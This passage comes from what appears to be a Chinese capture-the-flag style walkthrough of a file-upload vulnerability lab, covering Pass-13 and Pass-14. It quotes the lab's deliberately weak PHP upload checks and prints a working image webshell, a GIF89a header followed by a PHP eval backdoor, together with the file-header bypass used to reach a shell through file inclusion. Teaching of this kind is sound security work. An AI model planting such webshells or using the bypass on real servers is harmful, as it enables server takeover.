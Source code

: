``` php
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
?>
```
审计了一下源码，很明显是检测文件头。因为gif的文件头是`GIF89a`，因此我们就不使用winhex修改了，直接写一个这样的图片马：

``` php
GIF89a
<?php @eval($_POST['pass']);?>
```

然后使用题目提供的文件包含成功getshell。至于jpg、png可以使用winhex添加16进制的文件头，即可绕过对文件头的检测

## Pass-14

查看一下源码：
``` php
function isImage($filename){
    $types = '.jpeg|.png|.gif';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)>=0){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $res = isImage($temp_file);
    if(!$res){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```
